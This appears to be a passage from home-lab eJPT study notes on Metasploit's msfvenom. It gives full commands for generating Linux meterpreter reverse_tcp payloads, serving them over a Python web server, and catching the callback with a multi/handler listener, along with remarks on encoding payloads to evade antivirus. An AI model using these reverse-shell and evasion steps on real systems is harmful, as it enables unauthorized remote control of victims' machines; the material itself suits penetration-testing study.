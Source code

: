 msfvenom --list formatsFramework Executable Formats \[--format \<value>]===============================================Name----aspaspxaspx-exeaxis2dllducky-script-pshelfelf-soexeexe-onlyexe-serviceexe-smallhta-pshjarjsploop-vbsmachomsimsi-nouacosx-apppshpsh-cmdpsh-netpsh-reflectionpython-reflectionvbavba-exevba-pshvbswar​Framework Transform Formats \[--format \<value>]==============================================Name----base32base64bashccsharpdwdwordgogolanghexjavajs\_bejs\_lenimnimlangnumperlplpowershellps1pypythonrawrbrubyrustrustlangshvbapplicationvbscript

* Generate a Linux payload with `msfvenom`

**32bit payload:**&#x6D;sfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux\_Payloads/payloadx86**64bit payload:**&#x6D;sfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux\_Payloads/payloadx64

* 📌 _Platform and architecture are auto selected if not specified, based on the selected payload_

The transferring method onto the target system depends on the type of the social engineering technique.

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-5623729fc9d37d7c64ce35442c390f254debe1be%2Fimage-20230415192514206.png?alt=media" alt=""><figcaption></figcaption></figure>

* **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system

cd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080

* To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

msfconsole -quse multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run

* Download the payload on the Windows 2008 system (in this case my home lab VM) from this link
  * `http://192.168.31.128:8080`
  * Run the `payloadx86.exe` payload on the target
* The `meterpreter` session on the attacker machine should be opened

Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.![](https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-a0dc06e0faab6ffdd48000e41ed434b71b6f763a%2Fimage-20230415201253314.png?alt=media)

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ad022854e3f7b468ce17822415bef326f1f4c84e%2Fimage-20230415200856110.png?alt=media" alt=""><figcaption></figcaption></figure>

#### Encoding Payloads <a href="#encoding-payloads" id="encoding-payloads"></a>

Signature based Antivirus solutions can detect malicious files or executables. Older AV solutions can be evaded by **encoding** the payloads.

* ❗ _This kind of attack vector is outdated and hardly used today_.
* May work on legacy old O.S. like Windows 7 or older.

🗒️ Payload **Encoding** involves changing the payload shellcode _with the aim of changing the payload signature_.

* ​[Encoding will not always avoid detection](https://docs.rapid7.com/metasploit/encoded-payloads-bypassing-anti-virus)​
